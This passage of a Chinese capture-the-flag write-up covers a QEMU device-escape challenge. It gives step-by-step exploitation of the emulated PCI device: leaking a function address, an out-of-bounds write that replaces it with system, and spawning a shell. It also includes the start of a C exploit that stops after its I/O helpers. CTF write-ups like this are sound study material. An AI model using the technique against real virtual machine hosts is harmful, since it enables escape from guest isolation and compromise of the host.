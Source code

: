 ```php

p.interactive()
```

### D3BabyEscape

> Welcome to D3BabyEscape and have fun!

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714317778804-85b7f4d9-1464-45ef-b0e8-297eabb5912d.png)

申请了这个pci设备

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714317778938-64b3fb08-0b3b-4fb3-8b12-d9dfe3819579.png)

可能是改下面这个？

如果可以往3400的位置写上system的地址

n\_4为/bin/sh的话

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714317779035-621dfab4-4271-4c27-8b4b-79575adf7871.png)

pmio的端口比较像这个

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714317779071-213ab28e-cefb-4ebd-99fc-fafcb2d31870.png)

3400偏移处是函数地址

0xa00偏移处可以修改，然后任意地址

1. mmio\_write修改0xa00处的值，改成合适的大小
2. mmio\_read输出3400处的rand\_r函数地址，计算偏移得到system地址
3. 利用pmio\_read中触发666的检测
4. 利用pmio\_read中if条件里的越界写3400处为system
5. 最后调用system("sh;");

这里写入的value只能是4个字节，不知原因是什么  
但最后远程能打通，可能本地环境有问题

```php
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>

uint64_t pmio_base = 0x0000c000;
uint64_t mmio_mem;

uint64_t mmio_read(uint64_t addr){
    return *(uint64_t *)((uint64_t)mmio_mem + (uint64_t)addr );
}

void mmio_write(uint64_t addr,uint64_t val ){
    *(uint64_t *)((uint64_t)mmio_mem + (uint64_t)addr) = (uint64_t)val;
}

void pmio_write(uint64_t addr,uint64_t val){
    outl((uint64_t)val,(uint64_t)addr+(uint64_t)pmio_base);
```